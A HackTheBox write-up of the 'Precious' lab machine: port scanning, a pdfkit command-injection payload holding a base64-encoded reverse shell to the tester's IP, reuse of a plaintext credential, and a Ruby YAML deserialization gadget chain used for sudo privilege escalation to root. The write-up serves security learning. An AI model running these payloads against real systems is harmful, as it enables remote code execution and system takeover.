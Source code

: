 ```yaml
---
layout: single
title: Precious hackthebox writeup
excerpt: "Really easy linux machine in which we exploit a pdfkit RCE, find plaintext credentials and escalate thanks to a .yaml file"
date: 2022-12-09
classes: wide
header:
  teaser: /assets/images/precious/precious_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - RCE
---
```


![](/assets/images/precious/precious.png)

## User flag

As always let's scan the ports.

```shell
nmap -p- -Pn -n -vv --min-rate 5000 -sS -oN allports 10.10.11.189

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Nothing outside your typical hackthebox easy machine

```shell
nmap -p80,22 -sCV -vv -oN targeted 10.10.11.189

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
...
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Then let's add `precious.htb` to our `/etc/hosts` and start investigating the page. The **main functionality** of this page is to transform another webpage to a .pdf, you can try it with your IP by opening an http server with python

```shell
python3 -m http.server
```

But what is important here is what technology is being used, to get that information we are going to use burpsuite to intercept the request. If you enter a valid IP the pdf will be downloaded and by intercepting this package we can find it at the end in the metadata `Generated by pdfkit v0.8.6`. Doing a quick google search leads us to [Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) with a poc to exploit this vulnerability. After trying the sleep payload and seeing it worked I tried to get a reverse shell. I managed to get by using the usual base64 encoding, this is a payload example.

```
http://10.10.14.80/?name=#{'%20`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODAvNzc3NyAwPiYxCg==" | base64 -d | bash`'}
```

And got a reverse shell successfully. Now it was time to improve the tty for a better workflow

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 10.10.11.189:50408
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ export TERM=xterm
ruby@precious:/var/www/pdfapp$ stty rows 30 columns 132
ruby@precious:/var/www/pdfapp$
```

Although we can't yet get the user flag since we are the user ruby. However, one thing experience solving ctf's has taught me is to look at the home directory and look for non-usual folders (for instance this also applies to the last machine [metatwo](./2022-12-05-Metatwo-Writeup.md)). In this case, we have a .bundle folder, bundle is a ruby-related application (actually the one my blog uses), So out of curiosity, I checked the folder and ... found plaintext credentials!.

```shell
ruby@precious:/var/www/pdfapp$ cd
ruby@precious:~$ ls -la
total 844
drwxr-xr-x 5 ruby ruby   4096 Dec  9 11:20 .
drwxr-xr-x 4 root root   4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root      9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby    220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby   3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby   4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby   4096 Dec  9 11:10 .cache
drwx------ 3 ruby ruby   4096 Dec  9 11:20 .gnupg
-rwxr-xr-x 1 ruby ruby 827827 Oct 22 08:50 linpeas.sh
-rw-r--r-- 1 ruby ruby    807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ su henry
Password:
henry@precious:/home/ruby/.bundle$
```

## Root flag

The root flag is also simple, by executing `sudo -l` we find what looks like a privesc vector.

```shell
henry@precious:/home/ruby/.bundle$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

If we execute the command it gives us an error regarding a `dependencies.yml` file

```shell
henry@precious:/home/ruby/.bundle$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
        2: from /opt/update_dependencies.rb:17:in `<main>'
        1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

So if hacking has taught us something is to never trust user input, and in this case, we can create our own `dependencies.yml` file. By making a quick google search I found [this exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) from PayloadAllTheThings. The ruby version is 2.7.4 so the first payload won't work, let's use the second.

```shell
henry@precious:/dev/shm$ cat > dependencies.yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
^C
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
...
```

We can see it works fine, so the last step is just to change the `id` command for something that can be used to escalate like `bash`


```shell
henry@precious:~$ vi dependencies.yml
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# cd
root@precious:~# whoami
root
```

And that's it! thank you for reading
